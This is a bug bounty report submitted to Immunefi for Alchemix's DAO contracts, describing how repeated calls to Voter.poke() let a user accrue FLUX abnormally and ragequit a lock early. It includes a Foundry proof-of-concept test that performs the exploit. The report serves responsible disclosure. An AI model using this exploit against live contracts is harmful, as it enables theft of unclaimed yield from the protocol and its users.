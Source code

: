 
# Voter.poke() can be called at will, leading to a user accruing FLUX at an abnormal rate.

Submitted on May 7th 2024 at 21:34:31 UTC by @dirtymic for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30906

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
After a user votes, they can call poke however many times they want. This accrues Flux each time it recasts their vote. Giving them access to either Ragequit and withdraw early or leave the unclaimed flux and max boost their future votes, as well as walk away with leftover Flux tokens.

## Vulnerability Details
Once a user votes, they cannot vote again until the next epoch. However `Voter.poke()` can be called at any time. In the `poke` function `_vote` is called.

In `_vote` there is a call to the flux token contract that accrues unclaimed Flux.

```
...
    _reset(_tokenId);

        uint256 _poolCnt = _poolVote.length;
        uint256 _totalVoteWeight = 0;
        uint256 _totalWeight = 0;

        for (uint256 i = 0; i < _poolCnt; i++) {
            _totalVoteWeight += _weights[i];
        }

        IFluxToken(FLUX).accrueFlux(_tokenId);
...
```

This accrues the unclaimed Flux balance of the _tokenId by the amount of `claimableFlux` received from the VotingEscrow.sol contract

```
function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

Poke can be called at whim after a user has voted allowing a user to accrue Flux whenever they want. The amount of Flux accrued grows in proportion to the balance of veALCX of a tokenId.

## Impact Details

A user can accrue Flux at an abnormal rate using `poke()`, this allows a user to exit from a lock within 1 epoch by calling `poke()` enough times to accrue a large enough balance to pay the Ragequit penalty. If a user were to create a lock with 1 token, vote, and then call poke 110 times. They would have enough Flux to pay the penalty and walk away with 7.5 Flux tokens.

A user also has the option to leave the unclaimed Flux and use it to max boost their future votes.


## References
Poke:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212
_vote:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455
accrueFlux:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L187-L192
claimableFlux:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L376-L385



## Proof of Concept

This was written in the provided Voting.t.sol

```
function testVoteAndPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        voter.vote(tokenId, pools, weights, 0);

        for (uint i = 0; i < 110; i++) {
            voter.poke(tokenId);
        }

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        uint256 penaltyAmount = veALCX.amountToRagequit(tokenId);

        flux.claimFlux(tokenId, penaltyAmount);

        flux.approve(address(veALCX), penaltyAmount);

        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        uint256 flux1 = flux.unclaimedFlux(tokenId);

        veALCX.withdraw(tokenId);

        uint256 fluxBalanceAfter = flux.balanceOf(admin);

        assertEq(fluxBalanceAfter, flux1);

        emit Message("Admin balance after withdraw", IERC20(bpt).balanceOf(admin));

    }
```